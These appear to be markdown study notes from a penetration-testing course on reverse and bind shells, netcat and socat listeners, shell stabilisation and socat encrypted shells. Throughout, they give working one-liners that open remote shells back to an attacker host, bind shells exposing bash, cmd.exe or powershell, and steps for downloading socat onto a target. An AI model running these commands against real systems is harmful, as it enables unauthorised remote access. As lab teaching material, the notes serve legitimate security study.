# Reverse vs Bind shells
1. Reverse shells
are when the target is forced to execute code that connects back to your computer. 

  - Example: `sudo nc -lvnp 443` to start listner on attacker's machine, and `nc <LOCAL-IP> <PORT> -e /bin/bash` to set a reverse shell on the target's machine.

2. Bind shells
are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way.

  - Example: `nc -lvnp <port> -e "cmd.exe"` through a evil-winrm `evil-winrm -i <localIP>-u Adminstrator -p 'Try4ackM3'` on the target machine to set a listening port, and `nc MACHINE_IP <port>` on attacker's machine to connect to the target.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

## Shells can be either interactive or non-interactive
1. interactive: These allow you to interact with programs after executing them. For example, take the SSH login prompt. Examples include: Powershell, Bash, Zsh, sh, or any other standard CLI environment.

2. non-interactive: In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly, like whoami for example.

# netcat shells stabilisation
### python
1. first step is `python -c 'import pty;pty.spawn("/bin/bash")'` which gets us a better featured bash shell. we might need to replace python with python2 or python3 as required.
2. second step is: `export TERM=xterm` -- this will give us access to term commands such as clear.
3. `stty raw -echo; fg` -- This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). then foregrounds the shell, thus completing the process.
    > Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

### rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell. To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`.

This gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, cuz they are difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

### Socat
1. we would first transfer a socat static compiled binary up to the target machine. How? set up a web server using `sudo python3 -m http.server 80` and download using `wget <LOCAL-IP>/socat -O /tmp/socat)` or on windows using `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

    > This technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.

> With any of the above techniques, it's useful to be able to change your terminal tty size if you want to use something like a text editor. use `stty -a` to show the current values and `stty cols <num>`/`stty rows <num>` to set a new value. 

# Socat
### reverse shells
1. `socat TCP-L:<port> -` is an equivalent for `nc -lvnp <port>`.
2. For Windows target we use `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` to connect back. The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. while for Linux target we use `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### bind shells
1. For linux target we use `socat TCP-L:<PORT> EXEC:"bash -li"`, while for windows we use `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`.
2. on attacker's machine we use `socat TCP:<TARGET-IP>:<TARGET-PORT> -` to connect to the listening target.

### Fully stable Linux tty reverse shell
This technique is one of its most useful applications. Here is the new listener syntax: (works only for linux targets) `socat TCP-L:<port> FILE:`tty`,raw,echo=0` which is equivalent to using the `Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments:
- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

### Example: (attacker< >target)
![image](https://github.com/user-attachments/assets/8ac883f6-5955-42d7-986b-c18692ab4bb3)

### encrypted shells
Socat is capable of creating encrypted shells -- both bind and reverse. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. 

Steps to use the feature:
1. We first need to generate a certificate. on our attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`.
2. We then need to merge the two created files into a single .pem file: `cat shell.key shell.crt > shell.pem`
3. to set up a reverse shell listener `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
4. To connect back, we would use: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
5. The same technique would apply for a bind shell:
  - Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
  - Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`
